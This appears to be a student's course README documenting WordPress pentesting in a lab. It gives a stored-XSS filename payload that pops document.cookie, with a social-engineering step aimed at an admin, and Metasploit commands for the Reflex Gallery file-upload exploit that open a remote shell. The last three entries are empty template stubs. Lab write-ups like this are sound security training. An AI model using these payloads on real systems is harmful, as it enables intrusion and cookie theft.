 # cis221_codepath

See branches for assignments.

# Project 7 - WordPress Pentesting

Time spent: **15** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 -- WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename 
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in the media_handle_upload function in wp-admin/includes/media.php in WordPress before 4.6.1 might allow remote attackers to inject arbitrary web script or HTML by tricking an administrator into uploading an image file that has a crafted filename. 
    - Vulnerability types: Cross-site scripting
    - Tested in version: WordPress 4.2
    - Fixed in version: WordPress 4.6.1
  - [ ] GIF Walkthrough: <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.gif" alt="Walkthrough" style="max-width: 100%;">
  - [ ] Steps to recreate: 
    -  1. Confirm WordPress target host is vulnerable. WP version must be 2.5-4.6.
    -  2. Create an image file and insert '<img src=a onerror=alert(document.cookie)>' into the filename. This is the paylod script that will cause a javascript alert. For example, I used "marvinc0d3p4th<img src=a onerror=alert(document.cookie)>.jpg"
    -  3. Use social engineering to have admin of target host to upload image file as an attachment page. Even better is if you can get the admin to use the created attachment page url to embed into a post. 
<img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.png">
  - [ ] Affected source code: (https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
  
Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html


### 2. CVE-2015-4133 -- WordPress Plugin Reflex Gallery - Arbitrary File Upload (Metasploit) 
  - [ ] Summary: This module exploits an arbitrary PHP code upload in the WordPress Reflex Gallery version 3.1.3. The vulnerability allows for arbitrary file upload and remote code execution. 
    - Vulnerability types: Arbitrary file upload, remote code execution.
    - Tested in version: WordPress 4.2, ReFlex Gallery plugin 3.1.3
    - Fixed in version: ReFlex Gallery plugin 3.1.4
  - [ ] GIF Walkthrough: <img src="" alt="Walkthrough" style="max-width: 100%;">
  - [ ] Steps to recreate: 
    -  1. Confirm WordPress target host is vulnerable. Reflex Gallery plugin version older than 3.1.4 must be installed and activated.
    -  2. Run metasploit from attacker machine using the following commands:
        -  sudo service postgresql start
        -  sudo msfdb init
        -  msfconsole
    -  2a. in msfconsole shell, run the following commands to install the metasploit payload and create a connection with the target machine:
        - db_status
        - search Reflex #output should be: exploit/unix/webapp/wp_reflexgallery_file_upload
        - use exploit/unix/webapp/wp_reflexgallery_file_upload
        - info
        - set RHOST <url.of.target.machine>
        - set LHOST <url.of.attacker.machine>
        - exploit
    -  3. Meterpreter shell running, run the following commands to start a new shell inside the target machine:
        - shell
        
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
